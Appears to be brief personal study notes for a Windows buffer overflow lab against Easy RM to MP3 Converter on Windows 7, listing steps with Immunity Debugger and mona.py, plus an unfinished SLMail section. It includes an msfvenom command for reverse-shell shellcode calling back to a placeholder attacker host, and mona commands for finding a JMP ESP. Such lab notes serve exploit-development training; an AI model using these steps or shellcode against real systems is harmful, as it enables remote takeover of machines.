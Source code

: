 # Windows
## Buffer Overflow
### Requirements
1. Win 7 x86
2. immunity debugger
3. mona.py
4. easy rm to mp3 converter
### Steps
1. offset to EIP
2. find bad characters
3. generate shellcode

    msfvenom -p windows/shell_reverce_tcp LHOST=[IP], LPORT=[port] -f [python] -b "[\x00\x0a\x09]"
4. !mona modules
5. !mona jmp -r esp -m "[*.dll]"
6. result to 'EIP'

## SLMail Buffer Overflow
### Requirements
1. Sl mail
2.

*do this later*
